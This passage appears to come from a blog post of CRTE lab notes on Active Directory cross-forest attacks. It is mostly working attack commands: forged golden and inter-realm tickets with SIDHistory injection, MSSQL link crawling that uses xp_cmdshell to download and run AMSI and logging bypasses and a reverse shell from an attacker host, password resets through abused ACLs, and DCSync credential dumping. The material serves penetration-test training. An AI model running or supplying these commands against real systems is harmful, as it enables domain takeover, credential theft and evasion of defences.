C:\Users\Public\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:<domain> /sid:<SID> /rc4:<hash> /service:krbtgt /target:domain.local /sids:S-1-5-21-4066061358-3942393892-617142613-519 /ticket:C:\Users\Public\sharedwithdomain.kirbi" "exit"
C:\Users\Public\Rubeus.exe asktgs /ticket:C:\Users\Public\sharedwithdomain.kirbi /service:CIFS/dc.domain.local /dc:dc.domain.local /ptt
```

**With the CIFS service we can access the share**:
```powershell
dir \\dc.domain.local\eushare
```

> Access the target forest using PowerShell Remoting


**Check if SIDHistroy is enabled for the trust between the 2 Forests**:
```powershell
echo F | xcopy C:\AD\Tools\InviShell\InShellProf.dll \\dc.domain.local\C$\Users\Public\InShellProf.dll /Y
echo F | xcopy C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat \\dc.domain.local\C$\Users\Public\RunWithRegistryNonAdmin.bat /Y
winrs -r:dc.domain.local cmd
C:\Users\Public\RunWithRegistryNonAdmin.bat
```

**Check if there are any groups with SID>1000**:
```powershell
Get-ADGroup -Filter 'SID -ge "S-1-5-21-4066061358-3942393892-617142613-1000"' -Server domain.local
```


**Create an inter-realm ticket and Inject the SIDHistory**:
```powershell
C:\Users\Public\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21-3657428294-2017276338-1274645009 /rc4:<hash> /service:krbtgt /target:domain.local /sids:S-1-5-21-4066061358-3942393892-617142613-1103 /ticket:C:\Users\Public\domainnet.kirbi" "exit"
```

**Request a TGS for HTTP**:
```powershell
C:\Users\Public\Rubeus.exe asktgs /ticket:C:\Users\Public\domainnet.kirbi /service:HTTP/domain-net.domain.local /dc:dc.domain.local /ptt
winrs -r:domain-net.domain.local cmd
whoami /groups
```

   </div>
  </details>

  <details>
    <summary>MSSQL</summary>
    <div class="content" markdown="1">

**Enumerate database links**:
```powershell
Import-Module .\PowerupSQL-master\PowerupSQL.psd1
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
Get-SQLServerLink -Instance us-mssql.domain.local -Verbose
Get-SQLServerLinkCrawl -Instance us-mssql -Verbose
Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''whoami'''
```

**Open a Listener**:
```powershell
. .\powercat.ps1
powercat -l -v -p 443 -t 1000
Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.X/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.100.X/amsibypass.txt);iex (iwr -UseBasicParsing http://192.168.100.X/Invoke-PowerShellTcpEx.ps1)"'''
```

**Enable RPC Out and xp_cmdshell with SA permission**:
```powershell
Invoke-SqlCmd -Query "exec sp_serveroption @server='db-sqlsrv', @optname='rpc', @optvalue='TRUE'"
Invoke-SqlCmd -Query "exec sp_serveroption @server='db-sqlsrv', @optname='rpc out', @optvalue='TRUE'"
Invoke-SqlCmd -Query "EXECUTE ('sp_configure ''show advanced options'',1;reconfigure;') AT ""db-sqlsrv"""
Invoke-SqlCmd -Query "EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure') AT ""db-sqlsrv"""
```

**Now Try to execute commands recursively again**:
```powershell
Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''whoami'''
```

**Execute commands in a particular link database**:
```powershell
Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.x/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.100.x/amsibypass.txt);iex (iwr -UseBasicParsing http://192.168.100.x/Invoke-PowerShellTcpEx.ps1)"''' -QueryTarget db-sqlsrv
```

   </div>
  </details>

  <details>
    <summary>Foreign Security Principals (FSPs)</summary>
    <div class="content" markdown="1">
 


```powershell
iex (New-Object Net.WebClient).DownloadString('http://192.168.100.x/PowerView.ps1')
Note: Make sure to bypass AMSI before executing powershell commands
Get-ForestTrust
```

**Search for**:

- TrustType: Forest 
- TrustDirection: Bidirectional

```powershell
Find-InterestingDomainAcl -ResolveGUIDs -Domain dbvendor.local
```

> See if any *IdentityReferenceName* has *ActiveDirectoryRights* (GenericAll) to any *ObjectDN*

```powershell
Set-DomainUserPassword -Identity dbxsvc -AccountPassword (ConvertTo-SecureString 'Password@123' -AsPlainText -Force) -Domain dbvendor.local –Verbose
```

**Enumerate FSPs**:
```powershell
Find-ForeignGroup –Verbose
```

**Get-DomainUser**:
```powershell
Get-DomainUser -Domain dbvendor.local | ?{$_.ObjectSid -eq 'S-1-5-21-569087967-1859921580-1949641513-4101'}
```

**Accessing with WINRS**:
```powershell
winrs -r:db-dc.db.local -u:dbvendor\dbxsvc -p:Password@123 "whoami"
```

**Accessing with PowerShell Remote**:
```powershell
$passwd = ConvertTo-SecureString 'Password@123' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("dbvendor\dbxsvc", $passwd)
$dbdc = New-PSSession -Computername db-dc.db.local -Credential $creds
Invoke-Command -scriptblock{whoami;hostname} -Session $dbdc
```


   </div>
  </details>

  <details>
    <summary>PAM Trust</summary>
    <div class="content" markdown="1">
 


**Enumerate Foreign Security Principals**:
```powershell
Get-ADObject -Filter {objectClass -eq "foreignSecurityPrincipal"} -Server domain.local
```

**Find out which group DA it is a member of**:
```powershell
Get-ADGroup -Filter * -Properties Member -Server domain.local | ?{$_.Member -match 'S-1-5-21-2781415573-3701854478-2406986946-500'}
```

> In this case the DA is a member of the built-in administrators group on the target forest

**So we need to grab a DA access**: 
```powershell
C:\AD\Tools\Rubeus.exe asktgt /domain:<domain> /user:administrator /aes256:<hash> /dc:<dc> /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
echo F | xcopy C:\AD\Tools\InviShell\InShellProf.dll \\dc.domain.local\C$\Users\Public\InShellProf.dll /Y
echo F | xcopy C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat \\dc.domain.local\C$\Users\Public\RunWithRegistryNonAdmin.bat /Y
winrs -r:dc.domain.local cmd
C:\Users\Public\RunWithRegistryNonAdmin.bat
```

**Check if PAM trust is enabled**:
```powershell
Get-ADTrust -Filter {(ForestTransitive -eq $True) -and (SIDFilteringQuarantined -eq $False)}
```

**Search for**:

- ForestTransitive : True
- SIDFilteringForestAware : False
- the DistinguishedName


**Use the privileges of DA to extract credentials of DA of the target Forest**:
```powershell
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:domain\Administrator /domain:domain.local" "exit"
C:\AD\Tools\Rubeus.exe asktgt /domain:domain.local /user:administrator /aes256:<hash> /dc:<dc> /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
echo F | xcopy C:\AD\Tools\InviShell\InShellProf.dll \\dc.domain.local\C$\Users\Public\InShellProf.dll /Y
echo F | xcopy C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat \\dc.domain.local\C$\Users\Public\RunWithRegistryNonAdmin.bat /Y
winrs -r:dc.domain.local cmd
C:\Users\Public\RunWithRegistryNonAdmin.bat
```

**Enumerate other Forests**:
```powershell
Get-ADTrust -Filter {(ForestTransitive -eq $True) -and (SIDFilteringQuarantined -eq $False)} -Server production.local
```

**Search for**:

- ForestTransitive : True
- SIDFilteringForestAware : True


**Check the membership of Shadow Security Principals**:
```powershell
Get-ADObject -SearchBase ("CN=Shadow Principal Configuration,CN=Services," + (Get-ADRootDSE).configurationNamingContext) -Filter * -Properties * | select Name, member, msDS-ShadowPrincipalSid | fl
```

**Obtain the IP of Forest**:
```powershell
Get-DnsServerZone -ZoneName production.local |fl *
```

**Modify WSMan Trustedhosts property**:
```powershell
Note: Run from an elevated shell
Set-Item WSMan:\localhost\Client\TrustedHosts * -Force
```

**Use PowerShell Remoting**:
```powershell
C:\AD\Tools\SafetyKatz.exe "sekurlsa::opassth /user:administrator /domain:domain.local /ntlm:<hash> /run:powershell.exe" "exit"
Enter-PSSession 192.168.102.1 -Authentication NegotiateWithImplicitCredential
```

   </div>
  </details>

  <details>
    <summary>Mindmaps</summary>
    <div class="content" markdown="1">
 

AD Mindmap:

![Alt text](/assets/images/posts/crte/6.png){: .align-center}

AD Recommendations:

![Alt text](/assets/images/posts/crte/7.png){: .align-center}

DACL:

![Alt text](/assets/images/posts/crte/8.png){: .align-center}

Bypass AV:

![Alt text](/assets/images/posts/crte/9.png){: .align-center}

Bloodhound Collector:

![Alt text](/assets/images/posts/crte/10.png){: .align-center} 

  </div>
  </details>
</div>


